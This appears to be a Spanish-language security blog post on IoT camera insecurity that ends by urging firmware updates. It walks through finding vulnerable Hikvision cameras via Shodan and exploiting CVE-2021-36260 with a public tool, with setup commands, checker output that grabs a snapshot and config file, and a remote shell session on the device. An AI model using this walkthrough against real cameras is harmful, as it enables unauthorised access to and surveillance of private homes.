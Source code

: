 ```yaml
---
title: Firmware updates
date: 2025-07-30 11:00:00 +0200
categories: [ciberseguridad, redes]
tags: [camaras, shodan, hacking, firmware, iot]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/8/88/Firmware_update_Fuji_Instax_Liplay.jpg/500px-Firmware_update_Fuji_Instax_Liplay.jpg1024px-Surface_Web_%26_Deep_Web.jpg
    alt: firmware update
---
```


## Ciberseguridad de IoT
Quiero dejar evidencia de lo sencillo que puede resultarle a actores maliciosos, obtener información de dispositivos IoT o hackearlos. Estos dispositivos, cámaras, sensores, aspiradoras, neveras, routers, etc, etc y cada vez hay más claro que no todos se conectan a Internet, sino "solamente a la red interna", esto en la mayoría de casos es cierto, pero poco a poco iremos "abriendo más puertos" para tener acceso a estos dispositivos desde Internet o dicho de otra forma, les daremos acceso a "la red" y no los tendremos tan aislados porque nos proporcionan "bienestar". Por ejemplo las cámaras de videovigilancia cada vez son más comunes y que en cierta forma proporcionan seguridad, a su vez el poder usar "la red" para tener acceso a ellas mejora la observabilidad y esto retroalimenta la seguridad. 

## Exploits  
Los actores maliciosos buscan vulnerabilidades para por ejemplo crear una botnet con dispositivos IoT. Cuando encuentran una como esta ya sea investigando ellos mismos o por por terceros, pasan a la siguiente fase. ```CVE-2021-36260``` 

## Dorking y sondas
Ahora que los actores maliciosos conocen las vulnerabilidades, lo que necesitan es encontrar objetivos a los que aplicar las técnicas necesarias para ganar acceso, privilegios y control sobre los mismos. 

Hay varias formas de encontrar estos dispositivos, puedes hacerlo con un script que haga un request aletoriamente por IPs para comprobar si ese puerto es una cam o una marca en concreto, lo que se llama escrapeo, con herramientas escáneres como Zmap capaces de escanear Internet entero en pocos minutos. También puedes usar la opción más dependiente que es usar una API de terceros como [https://www.shodan.io](https://www.shodan.io/), que es la que usé para testear. Otras formulas de búsqueda por supuesto. 

![shodan.io](https://upload.wikimedia.org/wikipedia/en/3/38/Shodan_%28website%29_logo.png)

Ahora en el buscador de Shodan introducimos simplemente ```3.1.3.150324``` esta sería la versión de la web vulnerable que nos indican en el exploit, si bien puede que afecte a más productos y por lo tanto a otras versiones de la web. Esto solo es el filtro que hemos aplicado a Shodan.io para el resultado de su motor. Aplicando otros filtros es posible que obtengamos más resultados. 

### Preparación 
``` shell
git clone https://github.com/tamim1089/HikvisionExploiter
python -m venv .
source bin/activate
pip install -r requirements.txt
nano targets.txt #introduces los targets ip:puerto
```

## Explotación

``` shell
python checker.py
=======================================================
Target: 192.168.2.221:81
=======================================================

[+] Directory accessible: http://192.168.2.221:81/onvif-http/snapshot?auth=YWRtaW46MTEK

[+] Device Info
    deviceName: IP CAMERA
    deviceID: 88
    deviceDescription: IPCamera
    deviceLocation: Lugo
    systemContact: Hikvision.China
    model: DS-2CD3T20D-I3
    serialNumber: DS-*********
    macAddress: c4:********
    firmwareVersion: V5.3.1
    firmwareReleasedDate: build 150401
    bootVersion: V1.3.4
    bootReleasedDate: 100316
    hardwareVersion: 0x0

[+] Users
    admin: Administrator
[+] Snapshot saved: logs/192.168.2.221:81_20250730_124156/20250730_124156.jpg

-- CVE-2021-36260 (RCE Command Injection Check) --
    RCE confirmed! Device is VULNERABLE!!!
    Run this to get a shell: chmod +x shell.sh && ./shell.sh 192.168.2.221:81

```

RCE shell, el proyecto viene acompañado de una utilidad para interactuar con el dispositivo a través de Curl 

```shell
(HikvisionExploiter) ┌──(pablo☠office)
└─$ ./shell.sh 192.168.2.221:81
[+] Target 192.168.2.221:81 appears vulnerable!
Connected to Hikvision target: 192.168.2.221:81
Type commands to execute remotely. Ctrl+C to exit.
hikvision-shell> ls
applib
certs
initrun.sh
pidfile
process
r2_isp_config
sound
webLib
```
Si el dispositivo es vulnerable además se generará un carpeta en el directorio logs intentará checkear si el dispostivo es  vulnerable a obtener una shell y además sacará una fotograma de la webcam y una copia del config_enc.bin el proyecto dice que intentará descifrarlo pero no he visot que lo haga, se quedará en un intento. 

``` shell
├── 192.168.2.221:81_20250730_124156
│   ├── 20250730_124156.jpg
│   └── config_enc.bin
```

## Firmware updates

Tengo un artículo explicando 14 puntos a tener en cuenta a la hora de securizar un router, en el se habla también de las actualizaciones y del miedo que se tiene a parchear, actualizar, etc este tipo de dispositivos. Solo intenta evaluar lo siguiente: Romper/brikear un dispositivo es algo técnico y puede que cueste dinero y tiempo, que te espíen en tu propia casa es algo personal. 

![webcam guitarrist](https://upload.wikimedia.org/wikipedia/commons/6/69/1975_Alvarez_guitar_%282010-10-18_03.14.15_by_fenderfish%29.jpg)

El de la foto no soy yo pero ejemplifica la situación. 